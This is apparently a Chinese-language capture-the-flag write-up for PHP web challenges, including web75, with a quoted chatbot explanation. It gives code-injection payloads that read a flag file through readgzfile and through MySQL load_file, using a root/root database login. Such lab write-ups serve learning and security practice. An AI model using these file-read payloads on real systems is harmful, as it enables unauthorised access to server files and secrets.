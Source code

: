 ```
c=readgzfile('/flagx.txt');exit();
```

成功查到了flag

#### web75

![image-20241130001438365](../assets/image-20241130001438365.png)

这题要用glob查文件，用var_export查不了

接下来是读文件

尝试了uaf和readgzfile之类的方法都失败了

没办法看看大佬怎么做的

我们其实可以用到mysql的load_file方法，从而读到flag

payload:

```php
c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit();
```

豆包解释一下

> 1. 数据库连接：
>    - `$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining");`
>    - 这行代码使用 MySQLi 扩展建立了一个与 MySQL 数据库的连接。它指定了数据库服务器的 IP 地址为`127.0.0.1`（本地主机），用户名是`root`，密码也是`root`，要连接的数据库名称是`ctftraining`。如果连接成功，`$conn`将保存这个数据库连接对象，以便后续进行数据库操作；如果连接失败，将会产生一个错误信息（不过在这段代码中没有对连接失败情况做显式处理）。
> 2. SQL 查询语句构建：
>    - `$sql = "select load_file('/flag36.txt') as a";`
>    - 这里构建了一个 SQL 查询语句。`load_file()`是 MySQL 中的一个函数，它的作用是读取指定路径的文件内容，并以字符串的形式返回。在这个查询中，它试图读取服务器上`/flag36.txt`文件的内容，并给查询结果的这一列起了一个别名`a`。
> 3. 执行查询并获取结果：
>    - `$row = mysqli_query($conn, $sql);`
>    - 这行代码使用已经建立好的数据库连接`$conn`来执行前面构建的 SQL 查询语句`$sql`。如果查询执行成功，`$row`将包含查询结果集的资源对象（可以理解为指向查询结果数据的一种引用）；如果查询失败，同样会产生一个错误信息（这里也未做显式处理）。
>    - `while($result=mysqli_fetch_array($row)){ echo $result['a']; }`
>    - 这个`while`循环用于遍历查询结果集。`mysqli_fetch_array()`函数每次从结果集中获取一行数据，并以数组的形式返回。在循环内部，它通过`$result['a']`来获取前面查询中`load_file()`函数读取到的文件内容（因为在查询中给这一列起了别名`a`），并将其输出到屏幕上。
> 4. 程序结束：
>    - `exit();`
>    - 这行代码使得脚本在完成查询结果输出后立即终止执行，不再执行后续可能存在的其他代码。
